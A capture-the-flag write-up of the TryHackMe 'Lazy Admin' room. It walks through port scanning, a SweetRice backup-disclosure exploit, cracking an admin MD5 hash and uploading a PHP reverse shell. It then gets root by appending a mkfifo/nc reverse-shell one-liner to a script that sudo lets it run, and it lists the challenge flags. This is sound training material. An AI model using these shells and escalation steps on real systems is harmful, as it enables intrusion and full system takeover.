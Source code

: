 # Lazy Admin

## Recon
### Port Scanning
```sh
└─$ nmap -sV -Pn 10.10.141.120 >> ports.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 20:47 EDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.29 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 20:47 EDT
Nmap scan report for 10.10.141.120
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.32 seconds
```

### Directory Enum
```sh
└─$ gobuster dir -u http://10.10.141.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt
```
```sh
/content
```
```sh
└─$ gobuster dir -u http://10.10.141.120/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt
```
```sh
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/_themes              (Status: 301) [Size: 320] [--> http://10.10.59.57/content/_themes/]
/.htaccess            (Status: 403) [Size: 276]
/as                   (Status: 301) [Size: 315] [--> http://10.10.59.57/content/as/]
/attachment           (Status: 301) [Size: 323] [--> http://10.10.59.57/content/attachment/]
/images               (Status: 301) [Size: 319] [--> http://10.10.59.57/content/images/]
/inc                  (Status: 301) [Size: 316] [--> http://10.10.59.57/content/inc/]
/index.php            (Status: 200) [Size: 2197]
/js                   (Status: 301) [Size: 315] [--> http://10.10.59.57/content/js/]                           
```


![alt text](/THM-CTF/LazyAdmin/photos/image.png)

- The site has been powered by `Sweetrice`
- Lets find some Vulnerability of It using `searchsploit`

### Searchsploit

```sh
└─$ searchsploit "sweetrice"                  
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                                                               | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                            | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                                                             | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                               | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                   | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                          | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                     | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                 | php/webapps/14184.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
- `Backup Discloser` is looking Interesting

```sh
└─$ searchsploit -m 40718                     
  Exploit: SweetRice 1.5.1 - Backup Disclosure
      URL: https://www.exploit-db.com/exploits/40718
     Path: /usr/share/exploitdb/exploits/php/webapps/40718.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
cp: overwrite '/home/bc-here/CTF{}/THM/lazyAdmin/40718.txt'? 
Copied to: /home/bc-here/CTF{}/THM/lazyAdmin/40718.txt

└─$ cat '/home/bc-here/CTF{}/THM/lazyAdmin/40718.txt'
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip

```
```sh
http://localhost/inc/mysql_backup
```
- This thing is pretty much interesting

- Lets try `http://10.10.141.120/content/inc//mysql_backup`

![alt text](/THM-CTF/LazyAdmin/photos/image1.png)

### Checking For password

```sh
└─$ cat mysql_bakup_20191129023059-1.5.1.sql         
.
.
.
.
.
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";

```

- It looks like an MD5 hash
- used this for cracking (https://hashes.com/en/decrypt/hash)

```sh
42f749ade7f9e195bf475f37a44cafcb:Password123

```
>## ID : `manager`
>## Password : `Password123`

- ``
![alt text](image2.png)

- After Login it gave me

![alt text](image3.png)

- In the `media center` there is an option for upload

![alt text](image4.png)

- Its High time I didn't use the php shell buddy!

- I cp the php shell from `/usr/share/webpages/php/` and save it as `reverse_shell.php5` because the `.php` could be validated [Actually I have faced it before!]

## Getting Into

```sh
└─$ nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.59.57] 57138
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 23:16:28 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls

```

```sh
$ cd home
$ ls
itguy
$ cd itguy
$ cat user.txt 
THM{63e5bce9271952aad1113b6f1ac28a07}
```
> ## user.txt : `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation
```sh
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.88.30 5554 >/tmp/f


```
- I have to echo the shell that we found from `copy.sh` , brh its literally saying it to copy in its name.

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <This is your local machine ip> 5554 >/tmp/f"`

```sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.88.30 5554 >/tmp/f" >> /etc/copy.sh

$ sudo /usr/bin/perl /home/itguy/backup.pl


```

#### Magic!!

```sh
└─$ nc -nlvp 5554                            
listening on [any] 5554 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.59.57] 42202
/bin/sh: 0: can't access tty; job control turned off
# cd ../../root
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

> ## root.txt : `THM{6637f41d0177b6f37cb20d775124699f}`